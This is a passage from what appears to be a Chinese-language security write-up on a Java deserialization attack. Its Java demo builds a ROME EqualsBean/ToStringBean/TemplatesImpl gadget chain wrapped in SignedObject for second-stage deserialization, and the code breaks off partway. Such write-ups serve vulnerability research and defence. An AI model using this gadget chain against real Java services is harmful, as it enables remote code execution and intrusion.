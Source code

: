 [![](assets/1701071934-0c4d423b3a1a308d39bf51b050895d6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223624-d82d32a8-8ad6-1.png)  
构造payload使value为equalsbean，m.get(key)为恶意对象  
demo：

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class rome6 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);
        SignedObject s = makeSignedObject(hashmap);
        SignedObject s2 = makeSignedObject(null);

        // 二次反序列化
        EqualsBean equalsBean2 = new EqualsBean(String.class, "1");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
```